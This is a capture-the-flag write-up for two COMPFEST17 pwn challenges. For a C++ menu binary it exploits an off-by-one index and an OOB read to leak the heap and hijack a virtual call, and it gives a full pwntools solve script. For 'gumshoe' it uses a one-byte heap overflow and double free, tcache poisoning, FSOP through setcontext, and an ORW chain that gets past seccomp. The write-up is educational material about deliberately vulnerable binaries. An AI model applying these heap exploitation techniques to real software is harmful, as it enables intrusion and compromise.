Leak heap address with OOB index by giving option 0 then `hire(8)` oob index and `view_history()`. Then clear history, input our heap pointer contain `win()` address and use `tire(8)` function to virtual call our `win()` function

## Solution

We were given `chall.zip` where contain `chall`, binary library, and source code. This binary is a tiny menu app with two C++ classes and a small global state:
- `Worker` has a virtual `work()`; `Admin` overrides it and prints a `std::string m_name`. 
- Globals array `Worker *workers[8]` and a `std::vector<int> choice_history`. A static choice_map labels menu choices. 
- There’s a `win()` function that spawns a shell. 



Each loop reads a menu choice, pushes it to history before validation, then dispatches:
```C
choice = menu();
choice_history.push_back(choice);
switch (choice) {
    case 1:
        hire();
        break;
    case 2:
        fire();
        break;
    case 3:
        tire();
        break;
    case 4:
        view_history();
        break;
    case 5:
        choice_history.clear();
        break;
    case 6:
        break;
    default:
        std::cout << "Invalid choice!" << std::endl;
}
```

Index-based actions read an index via `get_index()`; `tire()` does a virtual call through `workers[i]`: 

```C
int get_index(void) {
    int i;
    std::cout << "Which index?\n>> ";
    std::cin >> i;
    if (i < 0 || i > MAX_WORKERS) {           // BUG: off-by-one
        std::cout << "You don't have that many workers!\n";
        exit(1);
    }
    return i;
}

void tire(void) {
    int i = get_index();
    if (workers[i] != 0) {
        workers[i]->work();                    // virtual call
    }
}
```

“View history” tries to map each stored integer to human-readable text using `choice_map[choice-1]`:

```C
void view_history(void) {
    std::cout << "So far, you have:\n";
    for (int choice : choice_history) {
        std::string choice_text;
        if (choice <= choice_map.size()) {     // BUG: allows choice==0
            choice_text = choice_map[choice - 1]; // underflows to [-1]
        } else {
            choice_text = "UNKNOWN";
        }
        std::cout << "- " << choice_text << " (" << choice << ")\n";
    }
}
```

So the vuln here is:
1. `get_index()` rejects only `i > MAX_WORKERS`, so `i == 8` is accepted while `workers[8]` is one past the 8-element array. Because the globals are declared consecutively, that OOB slot overlaps the first field of `choice_history`, letting us corrupt its metadata by writing/reading `workers[8]`.
2. Because the program records the choice before validation, entering `0` stores `0` into `choice_history`. Later, `view_history()` checks `choice <= choice_map.size()` and then indexes choice_map[choice-1]. For `choice==0` that becomes `choice_map[-1]` → OOB read, which we use as a leak primitive. 

```python
for i in range(4):
    menu(0)
hire(8) # Trigger leak
menu(4)
ru("(33)\n")
rl()
ru("(")
heap_leak = int(ru(")")) << 12
```


3. With the OOB index, `tire(8)` makes a virtual call through a pointer we can steer (by overlapping choice_history buffer with  “Worker” chunk and then writing controlled 4-byte ints into it). Combined with `win()` present in the binary, this is a straight ret2win:

```python
menu(5) # clear history
menu(heap_leak + 0x388) # Pointer to win
menu(0)
menu(elf.sym["_Z3winv"])
menu(0)
tire(8) # trigger win
```





### Solve Script

```python
#!/usr/bin/env python3
import time
from subprocess import Popen
from pwncli import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = elf.libc
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "ctf.compfest.id", 7003


gdbscript = '''
init-pwndbg
b *view_history
b *tire+76
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, aslr=False)
    else:
        return process([exe] + argv, aslr=True)

def debug():
    global gdbscript, pid
    if not args.REMOTE and not args.GDB:
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:
            gdbscript = f'''
            init-pwndbg
            set sysroot /proc/{pid}/root
            c
            '''.format(**locals())        
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
        else:
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))


# =========================================================
#                         EXPLOITS
# =========================================================
def menu(op):
    sla(b">> ", str(op).encode())

def hire(idx):
    menu(1)
    menu(idx)

def fire(idx):
    menu(2)
    menu(idx)

def tire(idx):
    menu(3)
    menu(idx)

def exploit():
    global io
    io = initialize()
    debug()
    with log.progress("Leak Heap"), context.silent:
        for i in range(4):
            menu(0)
        hire(8) # Trigger leak
        menu(4)
        ru("(33)\n")
        rl()
        ru("(")
        heap_leak = int(ru(")")) << 12
    leak("Heap leak", hex(heap_leak))

    with log.progress("RIP -> Win"), context.silent:
        menu(5)
        menu(heap_leak + 0x388) # Pointer to win
        menu(0)
        menu(elf.sym["_Z3winv"])
        menu(0)
        tire(8) # trigger win
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`COMPFEST17{3X1T_ORw_cha1n}`

# Pwn - gumshoe

## Introduction 



## Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <seccomp.h>

#define STORAGE_SIZE 3
#define MAX_DESC_LEN 0x38

char *evidences[STORAGE_SIZE];

void setup_seccomp(void) {
    scmp_filter_ctx ctx;

    ctx = seccomp_init(SCMP_ACT_ALLOW);
    if (ctx == NULL) {
        perror("seccomp_init");
        exit(EXIT_FAILURE);
    }

    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(fork), 0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(vfork), 0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(clone), 0);

    if (seccomp_load(ctx) != 0) {
        perror("seccomp_load");
        seccomp_release(ctx);
        exit(EXIT_FAILURE);
    }
    seccomp_release(ctx);
}

void setup(void) {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
    setup_seccomp();
}

int main(void) {
    setup();

    puts("Good morning, detective!");
    puts("Somebody has stolen the prized possession of the sacred village!");
    puts("We need your help to gather all the evidence you can to catch this thief!");

    int choice = 0, index = -1;
    size_t size = -1;
    while (1) {
        puts("1. Add evidence");
        puts("2. View evidence");
        puts("3. Remove evidence");
        puts("4. Finish");
        printf("> ");

        scanf("%d%*c", &choice);
        switch (choice) {
        case 1:
            printf("Put into which backpack slot?\n> ");
            scanf("%d%*c", &index);
            if (index < 0 || index >= STORAGE_SIZE) {
                printf("Your backpack only has %d slots!\n", STORAGE_SIZE);
                break;
            }

            printf("How long is the evidence's description?\n> ");
            scanf("%zu%*c", &size);
            if (size > MAX_DESC_LEN) {
                puts("Description too long!");
                break;
            }

            char *evidence = malloc(size);

            printf("Describe the evidence\n> ");
            int len = read(0, evidence, size + 1);
            evidence[len] = '\0';

            evidences[index] = evidence;
            puts("New evidence added!");
            break;
        case 2:
            printf("View which backpack slot?\n> ");
            scanf("%d%*c", &index);
            if (index < 0 || index >= STORAGE_SIZE) {
                printf("Your backpack only has %d slots!\n", STORAGE_SIZE);
                break;
            }
            puts(evidences[index]);
            break;
        case 3:
            printf("Remove which backpack slot?\n> ");
            scanf("%d%*c", &index);
            if (index < 0 || index >= STORAGE_SIZE) {
                printf("Your backpack only has %d slots!\n", STORAGE_SIZE);
                break;
            }
            free(evidences[index]);
            break;
        case 4:
            puts("Thank you for your work, detective!");
            exit(EXIT_SUCCESS);
            break;
        default:
            puts("Invalid choice");
            break;
        }
    }
}
```

## Summary

We can use one byte overflow and size 0x30 to get libc leak and double free. Then targeting` _IO_list_all` FSOP exit `setcontext + 61` to control all register. After that just bof ORW to get the flag content.

## Solution

We were given a binary, library and the source code in this challenge. In the main we were given a heap menu without edit

```C
int main(void) {
    ...
        puts("1. Add evidence");
        puts("2. View evidence");
        puts("3. Remove evidence");
        puts("4. Finish");
        printf("> ");

        scanf("%d%*c", &choice);
        switch (choice) {
        case 1:
        ...
}
```
In the menu we have the option to allocate, view, and free.

```C
case 1:
    printf("Put into which backpack slot?\n> ");
    scanf("%d%*c", &index);
    if (index < 0 || index >= STORAGE_SIZE) {
        printf("Your backpack only has %d slots!\n", STORAGE_SIZE);
        break;
    }
    printf("How long is the evidence's description?\n> ");
    scanf("%zu%*c", &size);
    if (size > MAX_DESC_LEN) {
        puts("Description too long!");
        break;
    }
    char *evidence = malloc(size);
    printf("Describe the evidence\n> ");
    int len = read(0, evidence, size + 1);
    evidence[len] = '\0';

    evidences[index] = evidence;
    puts("New evidence added!");
    break;
case 2:
    printf("View which backpack slot?\n> ");
    scanf("%d%*c", &index);
    if (index < 0 || index >= STORAGE_SIZE) {
        printf("Your backpack only has %d slots!\n", STORAGE_SIZE);
        break;
    }
    puts(evidences[index]);
    break;
case 3:
    printf("Remove which backpack slot?\n> ");
    scanf("%d%*c", &index);
    if (index < 0 || index >= STORAGE_SIZE) {
        printf("Your backpack only has %d slots!\n", STORAGE_SIZE);
        break;
    }
    free(evidences[index]);
    break;
case 4:
    puts("Thank you for your work, detective!");
    exit(EXIT_SUCCESS);
    break;
default:
    puts("Invalid choice");
    break;
}
 ```

Here only have 3 idx and also max size `0x40`. The vuln in this code is `double free` and one byte overflow, when we free it doesn't clear the evidences pointer. 



When running the binary the bins tcache at `0x20` and `0x40` is full which we can use it for `fastbin attack` then for size `0x30` we can use to clear the `unsorted bins` and `smallbins`.

```python
for i in range(27):
    alloc(0, 0x28, b"A")
```




After that we can leak the heap by allocate and free the chunk.

```python
alloc(0, 0x18, b"A")
free(0)
view(0)
heap_leak = demangle(u64(rl().strip().ljust(8, b"\x00")))
heap = heap_leak & ~0xfff
```

For the libc we can use bins at `0xf0`, so overflow and overwrite the next chunk header then free it to get `unsortedbins` after that we can just view. 

```python
alloc(0, 0x28, b"A")
alloc(1, 0x28, p64(0x21)*2)
for i in range(5):
    alloc(2, 0x28, p64(0x21)*2)
free(0)
alloc(0, 0x28, b"A"*0x28 + b"\xf1") #Overwrite next chunk header
free(1)
view(1)

libc_leak = u64(rl().strip().ljust(8, b"\x00"))
libc.address = libc_leak - (libc.sym["main_arena"] + 96)
```




After leaking the heap & libc i decided to leak the stack too by making chunk with `0x30` then overwrite it to `0x40` to be free so it doesn't touch the tcache.

```python
alloc(0, 0x28, p64(0x21)*3 + b"\x31")
alloc(1, 0x28, p64(0x21)*3 + b"\x31")
free(0)
alloc(0, 0x28, b"A"*0x28 + b"\x41")
alloc(0, 0x28, p64(0x21)*3 + b"\x31")

alloc(0, 0x28, p64(0x21)*3 + b"\x31")
alloc(2, 0x28, p64(0x21)*3 + b"\x31")
free(0)
alloc(0, 0x28, b"A"*0x28 + b"\x41")
alloc(0, 0x28, p64(0x21)*3 + b"\x31")
```




Then after that do like `house of plastic` where we clean the tcache then allocate mangle stdout. After it we can just alloc 2 time and last alloc will be our input to write.

```python
free(1)
free(2)
free(1)
for i in range(7):
    alloc(0, 0x38, b"A")
alloc(0, 0x38, p64(mangle(heap, libc.sym["_IO_2_1_stdout_"])))
alloc(0, 0x38, b"A")
alloc(0, 0x38, b"B")
alloc(0, 0x38, stdout_leak(libc.sym["environ"]))
```

I'm using stdout to leak the stack but after that didn't find any good ret address to overwrite. 

Suddenly i remember one of the idea using `_IO_list_all` and [FSOP](https://niftic.ca/posts/fsop/) to control all register in the stack using [setcontext + 61](https://4xura.com/pwn/pwn-travelgraph/).

```python
alloc(0, 0x28, p64(0x31)*3 + b"\x31")
alloc(1, 0x28, p64(0x31)*3 + b"\x31")
free(0)
alloc(0, 0x28, b"A"*0x28 + b"\x21")
alloc(0, 0x28, p64(0x31)*3 + b"\x31")

alloc(0, 0x28, p64(0x21)*3 + b"\x21")
alloc(2, 0x28, p64(0x21)*3 + b"\x21")
free(0)
alloc(0, 0x28, p64(0x21)*5 + b"\x21")
alloc(0, 0x28, p64(0x21)*3 + b"\x21")
free(1)
free(2)
free(1)
for i in range(7):
    alloc(0, 0x18, b"A")
alloc(0, 0x18, p64(mangle(heap, libc.sym["_IO_list_all"])))
alloc(0, 0x18, b"A")
alloc(0, 0x18, b"B")
```

But before that i overwrite the `_IO_list_all` to fp at heap address. Then make fake fp with fsrop_context function

```python
payload = fsrop_context(fp)
alloc(0, 0x38, payload[:0x38] + b"\xff")
alloc(0, 0x38, payload[0x40:0x40+0x38] + b"\xff")
alloc(0, 0x38, payload[0x80:0x80+0x38] + b"\x00")
alloc(0, 0x38, payload[0xc0:])
alloc(0, 0x18, p64(fp))

```




```python
def fsrop_context(fp=None, offset=0x48, rip=None, rsp=None, rbp=0x2, rdi=0, rsi=None, rdx=0x200, rbx=0x2, r8=0x2, r9=0x2, r12=0x2, r13=0x2, r14=0x2, r15=0x2):
    fp = fp if fp is not None else libc.sym["_IO_2_1_stdout_"]
    fs = IO_FILE_plus_struct()
    fs.flags = b"/bin/sh\0"
    fs._IO_read_ptr = 0x8
    fs._IO_read_end = fp - 0x10 #RDX
    fs._IO_read_base = r8 #R8
    fs._IO_write_base = r9 #R9
    fs._IO_buf_base = r12 #R12
    fs._IO_buf_end = r13 #R13
    fs._IO_save_base = r14 #R14
    fs._IO_backup_base = r15 #R15
    fs._IO_save_end = rdi #RDI
    fs.markers = rsi if rsi is not None else libc.bss() #RSI
    fs.chain = rbp #RBP
    fs.fileno = rbx & 0xffffffff #RBX
    fs._flags2 = rbx >> 32
    fs._old_offset = rdx #RDX
    fs._lock = fp + 0x10  #RCX
    fs._offset = rsp if rsp is not None else libc.bss() #RSP
    fs._codecvt = rip if rip is not None else nsa(libc, "syscall ; ret") #RIP
    fs._wide_data = fp - 0x10
    fs.unknown2 = p64(0)*3 + p64(1) + p64(libc.sym["setcontext"] + 61) + p64(fp + 0xb0)
    fs.vtable = libc.sym._IO_wfile_jumps + offset - 0x18 # _IO_wfile_seekoff -> _IO_switch_to_wget_mode+37
    return bytes(fs)
```

Then after that we call `exit` and we can see got the `RIP`. By using fsop with `_IO_switch_to_wget_mode` + `setcontext + 61` i able to control some of the register. 






So just call `sys_read` where `libc.bss()` and also `libc.bss()` is the `rsp` then recall the `sys_read` where `rdx` is updated.
```python
rop = ROP(libc)
rop.rax = 0
rop.rdx = 0x200
rop.raw(nsa(libc, "syscall ; ret"))
sla("detective!", rop.chain())
```

In this challenges there is also a seccomp where it doesn't allow `execve` and `execveat`.




But we can still do `orw` so just overflow it to `orw` flag.txt

```python
offset = 0x30
payload = flat({offset: [orw(libc.bss() + 0xd8) + b"flag.txt\0"]})
sl(payload)
```

